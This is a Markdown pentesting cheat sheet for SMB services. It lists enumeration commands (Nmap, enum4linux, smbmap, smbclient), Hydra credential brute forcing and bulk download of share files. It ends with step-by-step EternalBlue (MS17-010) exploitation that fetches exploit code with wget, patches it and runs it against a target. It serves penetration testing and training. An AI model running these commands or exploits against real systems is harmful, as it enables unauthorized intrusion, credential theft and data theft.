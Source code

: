 ```yaml
---
title: Server Message Block (SMB) Pentesting
desc: Default port is 139, 445.
tags: [139, 445, Active, Directory, EternalBlue, Hydra, Nmap, Samba, SMB, Windows]
alts: []
render_with_liquid: false
---
```


## Enumeration

- **Nmap**

    ```sh
    nmap --script smb-brute -p 445 <target-ip>
    nmap --script smb-enum-shares.nse,smb-enum-users.nse -p 445 <target-ip>
    nmap --script smb-enum* -p 445 <target-ip>
    nmap --script smb-protocols -p 445 <target-ip>
    nmap --script smb-vuln* -p 445 <target-ip>
    ```

- **Enum4linux**

    ```sh
    # Basic
    enum4linux 10.0.0.1

    # All enumeration
    enum4linux -a 10.0.0.1

    # Verbose
    enum4linux -v 10.0.0.1

    # Specify username and password
    enum4linux -u username -p password 10.0.0.1
    ```

- **Smbmap**

    ```sh
    smbmap -H <target-ip>

    # Recursive
    smbmap -H <target-ip> -R

    # Username and password
    smbmap -u username -p password -H <target-ip>

    # Execute a command
    smbmap -u username -p password -H <target-ip> -x 'ipconfig'
    ```

<br />

## Brute Force Credentials

```sh
hydra -l username -P passwords.txt <target-ip> smb
hydra -L usernames.txt -p password <target-ip> smb
```

<br />

## Connect

- **Smbclient**

    ```sh
    smbclient -L 10.0.0.1
    smbclient -N -L 10.0.0.1
    smbclient -N -L \\\\10.0.0.1
    smbclient -L 10.0.0.1 -U username

    # Specify shared directory
    smbclient //10.0.0.1/somedir -U username
    # nobody, no-pass
    smbclient //10.0.0.1/somedir -N -U nobody

    # Specify workgroup
    smbclient -L 10.0.0.1 -W WORKGROUP -U username
    ```

    After connecting, you can download all files in share directory by the following commands:

    ```sh
    SMB:> mask ""
    SMB:> recurse ON
    SMB:> prompt OFF
    SMB:> mget *
    ```

    Or using Smbget from external:

    ```sh
    smbget -R smb://10.0.0.1/somedir -U username

    # Specify workgroup
    smbget -R smb://10.0.0.1/somedir -w WORKGROUP -U username
    ```

<br />

## EternalBlue (MS17-010)

- **AutoBlue**

    **[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010){:target="_blank"}** is an automatic exploit.  
    Download the repository and run the following example command.

    ```sh
    python zzz_exploit.py -target-ip <target-ip> -port 445 'username:password@target'
    ```

- **Manual Exploiting**

    You need to have two files - exploit.py, mysmb.py

    - **Download mysmb.py**

        ```sh
        wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py 

        # Convert DOS to UNIX
        dos2unix mysmb.py
        ```

    - **Edit Some Lines of mysmb.py for Python3**

        You need to edit some code because this exploit is old so only supports **Python2**.

        ```sh
        Line.69
        # transData = b''
        transData = ''

        Line.73
        # transData = ('\x00' * padLen) + str(parameters)
        transData = "".join(map(chr,(b'\x00' * padLen))) + str(parameters)

        Line.80
        # transData += ('\x00' * padLen) + data
        transData += "".join(map(chr,(b'\x00' * padLen))) + str(data)

        Line.231
        # req = str(pkt)
        req = pkt.getData()
        return b'\x00'*2 + pack('>H', len(req)) + req  # assume length is <6553

        Line.381
        # data += resp['Data'][1:]
        data += resp['Data'][1:].decode()
        ```

    - **Download exploit.py**

        ```sh
        wget -O exploit.py https://www.exploit-db.com/exploits/42315

        # Convert DOS to UNIX
        dos2unix exploit.py
        ```

    - **Edit the Credentials in exploit.py**

        ```sh

        ...
        username = "username"
        password = "password"
        ...

        ```

    - **Run**

        ```sh
        python exploit.py 10.0.0.1 netlogon
        python exploit.py 10.0.0.1 lsarpc
        python exploit.py 10.0.0.1 samr
        ```